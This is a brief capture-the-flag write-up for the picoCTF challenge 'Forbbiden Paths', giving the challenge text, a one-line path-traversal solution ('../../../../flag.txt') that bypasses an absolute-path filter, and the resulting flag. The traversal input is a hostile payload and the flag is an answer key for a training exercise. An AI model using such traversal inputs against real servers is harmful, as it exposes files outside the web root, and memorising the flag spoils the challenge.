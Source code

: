 # Forbbiden Paths

## Descripción
Can you get the flag? Here's the [website](http://saturn.picoctf.net:52021/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Pistas
- None

## Solución
```bash
../../../../flag.txt
```

## Bandera
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

## Notas adicionales
None

## Referencias
None
